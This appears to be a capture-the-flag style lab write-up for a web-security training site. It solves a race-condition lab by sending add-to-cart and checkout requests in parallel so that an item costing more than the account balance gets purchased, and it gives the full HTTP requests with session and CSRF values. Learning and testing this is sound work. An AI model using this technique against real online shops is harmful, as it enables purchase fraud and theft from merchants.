 Firstly, i tried purchasing item for 77$( i had 100$) then added target item to cart. But item just added and not purchased.

## Solution

1. Add item that costs less than 100$ to cart.
2. Intercept the request to add target item to cart(send to repeater).
3. Intercept puchase request(send to repeater).
4. Add to the group two requests above.
5. Send the group request in parallel(single packet attack). Then follow redirect from purchasing request. And you will successfully purchase the target item.


## Requests from repeater group

```
POST /cart HTTP/2
Host: 0a15007b04c2155f8159715e00df0018.web-security-academy.net
Cookie: session=NNhDWXExfGDNALmtQUOu5sFkMvv6DTOm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a15007b04c2155f8159715e00df0018.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://0a15007b04c2155f8159715e00df0018.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

productId=1&redir=PRODUCT&quantity=1
```

```
POST /cart/checkout HTTP/2
Host: 0a15007b04c2155f8159715e00df0018.web-security-academy.net
Cookie: session=NNhDWXExfGDNALmtQUOu5sFkMvv6DTOm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0a15007b04c2155f8159715e00df0018.web-security-academy.net
Referer: https://0a15007b04c2155f8159715e00df0018.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=uhPmjTI87NtWSJxCP0f9aaBibDUqUX4W
```


